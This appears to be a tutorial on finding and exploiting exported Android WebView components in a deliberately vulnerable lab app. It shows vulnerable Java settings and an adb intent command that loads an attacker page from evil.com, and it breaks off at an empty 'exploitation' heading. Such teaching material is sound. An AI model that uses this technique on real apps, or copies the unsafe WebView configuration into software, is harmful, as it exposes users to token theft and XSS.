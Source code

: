 - The `webview` allows to load a remote url and display web pages as part of the activity layout. 
- It doesn't work like a full fledged browser but it shows the data on a web page inside an activity.
- Links opening on the apps itself without going to a browser are example for this.

***How to look for a vulnerable `webview`?***

 => First let's look which all components are exported or not, there are two ways to tell this:
 1. if the component explicitly declares `exported="true"` attribute
 2. The component automatically becomes exported if it has intent filters, unless declared otherwise ie, `exported="false"` 

  => Now confirm that the web view exist by look at source code for `loadwebview()` method.

  => lets spot the vulnerability by looking at an example:

  ```xml
 <activity android:name="com.tmh.vulnwebview.SupportWebView"   android:exported="true"/>
  ```

 -  this is an activity declared on manifest file  which is exported.
 - Let's take a look at a vulnerable web view
 ```java       
 webView.setWebViewClient(new WebViewClient());  
 webView.getSettings().setAllowUniversalAccessFromFileURLs(true);    webView.getSettings().setJavaScriptEnabled(true);  
 if (getIntent().getExtras().getBoolean("is_reg", false)) {  
    webView.loadUrl("file:///android_asset/registration.html");  
     } else {  
          webView.loadUrl(getIntent().getStringExtra("reg_url"));  
         }  
     }  
 }
  ```

 - if we look at the code then we van see that it is loading a url right at the end and it is using a string send through the intent to load the url.

 - So this behaviour can be then exploited by third party application by sending the right intent to component with a url string, and the application will happily accept it as the component is exported which means that third party applications have access to it.

`exploitation:`

 =>For to exploit the vulnerability  we will send an intent to the vulnerable component using `adb` this will open a malicious web page provided by the attacker:

 =>we use this command for the same:
 ```shell
 adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es  reg_url "https://www.evil.com"
 ```

 breaking down the command: 
 1. `adb shell`: to start a unique shell on our device 
 2. `am start`: 'am' stands for activity manager here we are instructing android to start the activity manager. this manages all the components of android application. 
 3. `-n` : this flag is used to represent the name of the component where we are sending our intent.
 4. `com.tmh.vulnwebview/.RegistrationWebView` : name of the component, the only change here is that we need to add '/' just before the activity name.
 5. `--es reg_url`: stands for extra string where we are going to end the string url.  the name of the String extra that we get from the activity is `reg_url`
 6. finally provide the malicious link that you want to send to the attacker.


###### javascript enabled for a WebView:

 - web views supports the use of javascript, the developer can enable it by just adding this configuration:
```java
 webView.getSettings().setJavaScriptEnabled(true);
```

- also adding this configuration helps in creating an interface b/w web page's javascript and client side java code:
```java
WebView webView = (WebView) findViewById(R.id.webview);
webView.addJavascriptInterface(new WebAppInterface(this),"Android");
```

- this means that the web page's javascript code can access and inject java code into the application
- as this activity is exported this behaviour can be dangerous and allow an attacker to carry out  attacks including XSS and stealing tokens from the application.

 `exploitation:`
  